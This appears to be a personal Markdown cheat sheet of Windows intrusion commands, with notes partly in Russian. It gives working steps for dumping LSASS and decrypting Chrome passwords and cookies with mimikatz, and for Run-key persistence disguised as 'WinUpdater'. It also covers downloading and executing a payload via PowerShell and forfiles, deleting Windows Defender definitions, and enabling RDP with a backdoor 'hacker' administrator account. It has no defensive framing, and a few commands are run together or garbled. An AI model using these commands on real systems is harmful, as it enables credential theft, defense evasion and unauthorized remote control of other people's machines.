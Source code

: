 
<p align="center">
  <body>
    <img src="2zHQ.gif" width="500" height="300">
  </body>
</p>

````
WScript.Sleep(5000):Set objShell = WScript.CreateObject("WScript.Shell"):objShell.Run("start C:\Users\Public\putty.exe"), 0, True
````

````
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"
````

````
aHR0cHM6Ly9zZWMubm1hc2suY24vYXJ0aWNsZV9jb250ZW50P2FfaWQ9YWQ1ZWI3NzQ1NDMxYzk4YzRiN2QxZWYyNzc0ZjI2NGI=

````
Анализируйте запросы ARP для определения взаимодействующих хостов и устаревших конфигураций сетевых адресов (SNAC)
https://github.com/arch4ngel/eavesarp


## make proxy in target PC

https://www.youtube.com/watch?v=ghZ8XK9zEfI<br>
proxy UP &
````
vim /etc/proxychains4.conf
proxychains4 nmap -A -F -sT -Pn 10.10.10.1/24 > nmap_res.txt
````


````
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmpsekurlsa::dpapi

````
## Mimikatz Chrome-dump

````
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotectbeacon> mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
````
### Chrome cookies

````
 dpapi::chrome /in:"%localappdata%GoogleChromeUser DataDefaultCookies" /unprotect
````



## Download with Powershell

https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell

https://adamtheautomator.com/powershell-download-file/


````
Invoke-WebRequest -Uri $url -OutFile $output
````

````
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
````

bYpASS

https://github.com/tokyoneon/Chimera



````
powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
````
````
https://cloud.mail.ru/public/yp5y/tod8RWQqv
````
````
https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters

посмотреть процессы:

tasklist /V
tasklist /SVC

посомтреть АВ\

WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
sc query windefend

удалить правила для ДЕФ

"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

посмотреть установленные программы

reg query HKEY_LOCAL_MACHINE\SOFTWARE

ПОРТЫ открытые:

netstat -ano

порты для программ:
netsh firewall show state
netsh firewall show config


включить РДП

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"
::netsh firewall set service remotedesktop enable #I found that this line is not needed
::sc config TermService start= auto #I found that this line is not needed
::net start Termservice #I found that this line is not needed


net user hacker PASS /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

Авто загрузка управление

- https://www.thewindowsclub.com/manage-startup-items-windows-8

- https://www.techsupportall.com/how-to-disable-startup-programs-in-windows-10/#method4

-= https://community.spiceworks.com/topic/2140905-disabling-windows-startup-services-through-command-prompt

++ https://github.com/Faustvii/StartupManager
````
https://zer1t0.gitlab.io/posts/attacking_ad/
